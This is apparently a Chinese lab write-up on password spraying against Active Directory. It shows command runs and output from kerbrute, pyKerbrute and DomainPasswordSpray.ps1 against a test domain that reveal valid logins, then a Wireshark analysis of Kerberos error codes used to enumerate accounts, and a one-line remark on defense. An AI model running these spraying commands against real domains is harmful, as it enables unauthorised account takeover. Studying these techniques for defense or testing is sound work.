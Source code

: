 密码喷洒一般和域内用户名枚举一起执行，当用户名存在的时候，密码正确和密码错误的响应包也不一样

# 一、域内密码喷洒工具
## 1、kerbrute
```plain
(base) PS C:\Security\github\kerbrute> .\kerbrute_windows_386.exe passwordspray --dc 192.168.30.2 -d sec.com .\usernames.txt Az123456@

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 08/19/24 - Ronnie Flathers @ropnop

2024/08/19 10:23:09 >  Using KDC(s):
2024/08/19 10:23:09 >   192.168.30.2:88
2024/08/19 10:23:09 >  [+] VALID LOGIN:  test2@sec.com:Az123456@
2024/08/19 10:23:09 >  [+] VALID LOGIN:  test1@sec.com:Az123456@
2024/08/19 10:23:09 >  [+] VALID LOGIN:  administrator@sec.com:Az123456@
2024/08/19 10:23:15 >  Done! Tested 81481 logins (3 successes) in 5.784 seconds
(base) PS C:\Security\github\kerbrute>
```

## 2、pykerbrute
```plain
(py38) C:\root\tools\pyKerbrute> python2 ADPwdSpray.py 192.168.30.2 /root/tmp/test.txt ntlmhash 27d86657f458a28aeed03655ba6a6137 tcp
Traceback (most recent call last):
  File "ADPwdSpray.py", line 14, in <module>
    from Crypto.Cipher import MD4, MD5
ImportError: cannot import name MD4

```

注：由于版本原因，尝试使用hash方式未成功

## 3、DomainPasswordSpray.ps1
```plain
PS C:\Users\administrator\Desktop> Import-Module .\DomainPasswordSpray.ps1
PS C:\Users\administrator\Desktop> Invoke-DomainPasswordSpray -password Az123456@
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 5 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 5 users gathered from the current user's domain
[*] The domain password policy observation window is set to 10 minutes.
[*] Setting a 10 minute wait in between sprays.

Confirm Password Spray
Are you sure you want to perform a password spray against 5 accounts?
[Y] Yes  [N] No  [?] 帮助 (默认值为“Y”):
[*] Password spraying has begun with  1  passwords
[*] This might take a while depending on the total number of users
[*] Now trying password Az123456@ against 5 users. Current time is 2:28
[*] SUCCESS! User:Administrator Password:Az123456@
[*] SUCCESS! User:test1 Password:Az123456@
[*] SUCCESS! User:test2 Password:Az123456@
[*] Password spraying is complete
PS C:\Users\administrator\Desktop>
```

注：该脚本需要在域机器上执行

# 二、域内密码喷洒分析
尝试使用kerbrute工具对administrator(正常且密码正确)，test3（正常但密码错误），hack（禁用），error1(不存在)四个账号进行测试，并且使用wireshark抓包。

## 1、cname
## 先来看前四个AS-REQ的报文，报文里CNameString包含了用户名
![](../images/882b9e54ad530a5dff1b9f7c6c757d6e.png)

![](../images/a54fa7de4ff91e89efbe439b7425b1d3.png)

## 2、error1用户
接着先看第一个响应包，返回报文KRB5DC_ERR_C_PRINCIPAL_UNKNOWN代码，代表了error1用户不存在

![](../images/414810b0b6953324986c40753cf07f34.png)

## 3、hack用户
继续看第二个响应包，返回报文KRB5KDC_ERR_CLIENT_REVOKED NT Status: STATUS_ACCOUNT_DISABLED代码，代表hack用户存在但被禁用

![](../images/7d794413405c9974f846260d66969e3b.png)

## 4、test3用户
接着看用户test3的响应包，请求响应了两次

![](../images/df23f4e064ccacd685597d389abb4628.png)

第一个包表示需要预认证

![](../images/6a4c60cad8bcde077c1dada96c908ae0.png)

第二个包表示，虽然用户正常存在，但是提供的hash密码是错误的，也就认证失败

![](../images/4bc21876ef750c24d58af7b2f3361041.png)

## 5、administrator用户
![](../images/182066d323c142134e5d9697f865c2ca.png)

第一个包和上面的一致，需要预认证

![](../images/7f6be1cbb3f47f544600b7b2f100310b.png)

第二、三个包代表身份认证成功

![](../images/ad91caf9687dc5798fbb23c10b7f8e27.png)

注：KRB5KRB_ERR_RESPONSE_TOO_BIG表示来自服务器的响应太大，无法容纳在单个 UDP 数据包中，从而导致其被丢弃

# 三、域内密码喷洒防御
Kerberos身份验证失败的时候，不会产生日志，较难防御。